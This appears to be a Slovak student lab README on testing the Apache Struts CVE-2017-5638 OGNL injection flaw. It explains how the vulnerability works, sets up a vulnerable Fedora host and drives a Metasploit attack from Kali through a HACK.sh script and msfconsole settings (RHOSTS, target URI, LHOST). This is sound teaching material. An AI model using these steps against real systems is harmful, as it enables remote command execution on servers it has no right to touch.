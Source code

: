 # Otestovanie zraniteľnosti Struts na distribúciu Fedora 25

Zraniteľnosť CVE-2017-5638 sa týkala webového aplikačného rámca Struts, ktorý slúži na vytváranie webových 
aplikácií v programovacom jazyku Java. Jednalo sa o verzie rámca Struts od 2.3.5 do 2.3.31 a od 2.5 
po 2.5.10. Rámec Struts bol zraniteľný voči útoku remote command injection, kvôli nesprávnemu spracovaniu 
hlavičky  Content-Type v požiadavke HTTP, čo umožňovalo vykonanie príkazov pod oprávneniami webového servera. 

Zraniteľnosť vznikla kvôli analyzátoru Jakarta Multipart, ktorý slúži na odosielanie súborov. 
Ak hodnota v hlavičke Content-Type nebola platná, čiže nezodpovedala očakávanému platnému typu, 
vyhodí sa výnimka, ktorá sa následne použije na zobrazenie chybovej správy používateľovi. V tomto 
prípade môžeme nastaviť hlavičku Content-Type na výraz v jazyku OGNL. Takto bolo možné spustiť OGNL príkazy,
ktoré následne spustili systémové volania.

## Konfigurácia distribúcie Fedora

Pre vytvorenie zraniteľného systému sme postupovali podľa návodu 
*[Exploiting Apache Struts with CVE-2017-5638](https://samsclass.info/124/proj14/p9xstruts.htm)*. Podľa návodu sme
nainštalovali webový server Apache Tomcat a Maven. Na záver sme na server vložili zraniteľný rámec Struts.

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v kozole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.32` a cesta `set targeturi /struts2_2.3.15.1-showcase/showcase.action`, čo nám nastaví cestu k
zraniteľnej aplikácii Struts. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.33` a spustiť útok. 
